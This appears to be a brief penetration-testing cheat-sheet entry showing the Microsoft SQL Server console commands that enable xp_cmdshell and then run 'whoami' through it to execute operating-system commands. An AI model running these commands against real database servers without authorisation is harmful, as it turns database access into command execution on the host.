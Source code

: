 ## MsSQL Enable 'xp_cmdshell'

```console
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
```